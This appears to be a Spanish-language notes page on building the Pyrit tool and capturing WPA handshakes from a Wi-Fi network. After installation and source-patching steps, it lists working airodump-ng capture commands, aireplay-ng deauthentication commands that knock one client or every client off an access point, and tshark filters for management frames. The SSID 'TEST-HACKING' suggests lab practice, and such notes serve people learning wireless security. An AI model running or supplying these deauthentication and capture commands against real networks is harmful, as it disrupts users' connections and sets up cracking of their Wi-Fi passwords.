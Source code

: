 
---
### Instalar Pyrit y obtener el hanshake de forma pasiva
	cd /opt 
	 sudo wget https://old-releases.ubuntu.com/ubuntu/pool/universe/s/scapy/python-scapy_2.3.2-0.1_all.deb
	sudo dpkg -i python-scapy_2.3.2-0.1_all.deb 
	sudo git clone https://github.com/JPaulMora/Pyrit.git
	sudo apt install python2
	sudo apt install python2-dev 
	sudo apt-get install libpcap0.8-dev
	sudo apt install libpcap-dev 
	sudo python2 setup.py clean
	sudo python2 setup.py build
	sudo python2 setup.py install
	sudo pyrit
	greo -r -i "Compile_aesni"
	sudo nano cpyrit/cpufeatures.h 
	borrar las siguiente lineas:
		#if (defined(__AES__) && defined(__PCLMUL__))
		    #define COMPILE_AESNI
		#endif 
	sudo nano cpyrit/_cpyrit_cpu.c -c --> la opción -c ayuda a imprimir con numeros de lineas y poder ver en que linea estamos
	sudo nano ~/.nanorc --> ayuda a configurar mejores las entradas de visualización en el nano
		set autoindent
		set tabsize 4
		set linenumber
		set smooth
		set nowrap
	borramos lo de la linea 1080 hasta 1143 y todo lo relacionado con COMPILE_AESNI que esta en la linea 2325-2331 | 44-46
		    #ifdef COMPILE_AESNI
		    if (cpufeatures & HAVE_AESNI)
		    {
		        PlatformString = PyString_FromString("SSE2/AES");
		        ccmp_encrypt = ccmp_encrypt_aesni;
		    }
		    #endif
		    #ifdef COMPILE_AESNI
			    #include <wmmintrin.h>
			#endif
	sudo python2 setup.py clean
	sudo python2 setup.py build
	sudo python2 setup.py install
	sudo pyrit -r captura-01.cap analyze --> se obtiene varios handshakes
	sudo airodump-ng -c 1 -w captura --bssid mac-accespoint wlan0 --> captura el tráfico de un access point
	sudo aireplay-ng -0 10 -e TEST-HACKING -c mac-host wlan0 --> desautentica un host especifico con 10 paquetes pero para este caso usamos el modo global
	sudo aireplay-ng -0 10 -e TEST-HACKING -c ff:ff:ff:ff:ff:ff --> desautentica de manera global
	sudo pyrit -r captura-01.cap analyze --> analiza las capturas guardadas
	sudo pyrit -r captura-01.cap analyze | grep "handshake" | wc -l
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==4" 2>/dev/null --> captura los pauqetes probe request
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==5" | wc -l 2>/dev/null --> captura los pauqetes probe responde
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==0" 2>/dev/null --> captura los pauqetes association request
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==0" -Tjson 2>/dev/null | grep "mac-host" --> filtra los 3 wlans ta-sa-addr (trasmisoras-source addres -addes)
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==0" -Tfields -e wlan.addr 2>/dev/null --> filtra las wlans trasnmisoras